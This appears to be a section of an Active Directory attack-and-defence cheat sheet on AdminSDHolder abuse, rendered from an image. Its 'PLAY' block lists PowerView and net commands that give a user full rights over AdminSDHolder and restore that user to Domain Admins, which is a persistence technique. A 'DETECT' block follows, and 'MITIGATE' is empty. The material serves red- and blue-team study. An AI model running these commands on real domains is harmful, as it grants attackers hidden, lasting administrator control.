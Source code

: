 ▶️ PLAY :
```powershell
# add the user to the adminsdholder group 
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName spotless -Verbose -Rights All

# check the user has genericAll over the 'Domain Admins' group
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'spotless'}

# add the user back to the 'Domain Admins' group
net group "domain admins" spotless /add /domain
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

🔎️ DETECT :
```powershell
# find all users with security ACLs set by SDProp using the PowerShell AD cmdlets
Import-Module ActiveDirectory
Get-ADObject -LDAPFilter “(&(admincount=1)(|(objectcategory=person)(objectcategory=group)))” -Properties MemberOf,Created,Modified,AdminCount

# monitor the ACLs configured on the AdminSDHolder object. These should be kept at the default – it is not usually necessary to add other groups to the AdminSDHolder ACL.

# monitor users and groups with AdminCount = 1 to identify accounts with ACLs set by SDProp.

```

🛟 MITIGATE :
```powershell
```

🕮 READ MORE at :
- [thehacker.recipes/ad/persistence/adminsdholder](https://www.thehacker.recipes/ad/persistence/adminsdholder).
- [ired.team/abuse-adminsdholder](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence)
- [adsecurity.org/adminsdholder](https://adsecurity.org/?p=1906)


## <a name='dacl-abuse'></a>dacl-abuse

🔑 KEYPOINTS :
